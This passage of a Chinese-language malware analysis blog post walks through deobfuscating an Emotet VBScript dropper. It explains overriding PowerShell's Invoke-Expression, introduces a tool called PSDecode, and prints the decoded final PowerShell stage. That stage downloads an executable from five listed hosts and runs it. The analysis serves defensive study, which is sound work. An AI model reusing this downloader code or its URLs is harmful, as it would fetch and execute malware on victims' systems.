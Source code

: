 我们只需要处理这一行代码就可以了，我们首先要用“&amp;“替换掉其中的”+“，然后从拼接的字符串中移除Chr(34)。在所有我所见过的Emotet样本中，我发现Chr(34)一般代表的都是返回的变量。替换后的结果如下所示：

```
jiwmsks = CDTYtchKqa &amp; lwZdcXfstH &amp; IDzLI &amp; JEWGvsJm &amp; PkhfTi &amp; HddjQFA &amp; HdPMtRtTE &amp; uSuUXDwulB &amp; wLJAmiqSdz &amp; NuGQUiY &amp; GGVvLNj &amp; imzlMFo &amp; PFrdrk &amp; pICcVDM &amp; RzFJLoLwMGf &amp; BQjiricj &amp; rztNrEIuZ &amp; WHUGoa &amp; dhrHBmrp &amp; HLifpvFSFR &amp; SphtjZ &amp; FJGTlwJHURm
```

新的脚本如下图所示：<br>[![](https://p4.ssl.qhimg.com/t012cdccc5809086b9a.png)](https://p4.ssl.qhimg.com/t012cdccc5809086b9a.png)<br>
最后，我们需要将该脚本以后缀.vbs进行保存，例如emotet.vbs。



## 提取编码后的PowerShell

既然我们已经得到了一个可以直接打印出解码函数输出结果的新脚本，那我们就可以使用cscript.exe（从命令行运行）并将输出结果（解码后的PowerShell指令）重定向到一个新的文件（decoded_encoded.ps1）之中了。<br>
下图显示的是我们新脚本VBScript的运行情况：<br>[![](https://p0.ssl.qhimg.com/t01bd39c7321b6bf4b5.png)](https://p0.ssl.qhimg.com/t01bd39c7321b6bf4b5.png)<br>
下图显示的是decoded_encoded.ps1中的内容，代码经过了高度混淆化处理：<br>[![](https://p5.ssl.qhimg.com/t014845b38471da3582.png)](https://p5.ssl.qhimg.com/t014845b38471da3582.png)



## 解码PowerShell

手动解码反正是不可能的了，那我们该怎么办呢？解决方案就是：方法覆盖！<br>
在“方法覆盖“的帮助下，我就可以更改上述代码中Invoke-Expression命令的功能了。请大家直接看下图：<br>[![](https://p5.ssl.qhimg.com/t01567d6678c3541cd2.png)](https://p5.ssl.qhimg.com/t01567d6678c3541cd2.png)<br>
在上图中，左边的PowerShell脚本调用了Invoke-Expression命令，参数为“Write-Host this is a test”。而右边的PowerShell脚本有一个新定义的Invoke-Expression，它的功能与左边的代码一样。<br>[![](https://p5.ssl.qhimg.com/t01e4865a1179c17ce7.png)](https://p5.ssl.qhimg.com/t01e4865a1179c17ce7.png)<br>
执行正常的Invoke-Expression脚本后，输出结果为“this is a test”。这是因为标准的Invoke-Expression命令会直接尝试运行任何传递给它的数据(字符串“Write-Host ‘this is a test’”)，因为它默认会把这些数据当作有效的PowerShell命令。<br>
但是，当我们执行重写的Invoke-Expression脚本后，输出结果为“Write-Host ‘this is a test’”。这是因为PowerShell会决定如何实现我们的Invoke-Expression，而它只会将传递给它的参数直接打印出来，而不是执行这些命令。<br>
由于我们只需要获取解码后的命令，而不是让这些命令被执行，所以“方法覆盖“这种技术就非常适用于我们的场景了。



## PSDecode介绍

所以我借鉴了“方法覆盖“的理念，并开发了一个名叫PSDecode的PowerShell模块。<br>[![](https://p5.ssl.qhimg.com/t0143458d59bdbd895a.png)](https://p5.ssl.qhimg.com/t0143458d59bdbd895a.png)<br>
上图显示的是PSDecode脚本的输出结果，我们可以看到这里有四层代码，第一层是传递给PSDecode的原始编码脚本。最后一层为完全编码后的PowerShell脚本，这部分代码就是攻击者最终需要执行的代码：

```
############################## Layer 4 ##############################
$franc = new-object System.Net.WebClient;$nsadasd = new-object random;$bcd = ‘http://taswines.co.uk/AFh/,http://oilcom.com.ua/wZZ/,http://www.avcilarbinicilik.xyz/SkRagptdG/,http://randevu-dk.ru/q/,http://salon-grazia.ru/Hqrp/’.Split(‘,’);$karapas = $nsadasd.next(1, 343245);$huas = $env:public + ‘’ + $karapas + ‘.exe’;foreach($abc in $bcd)`{`try`{`$franc.DownloadFile($abc.ToString(), $huas);Invoke-Item($huas);break;`}`catch`{`write-host $_.Exception.Message;`}``}`
```
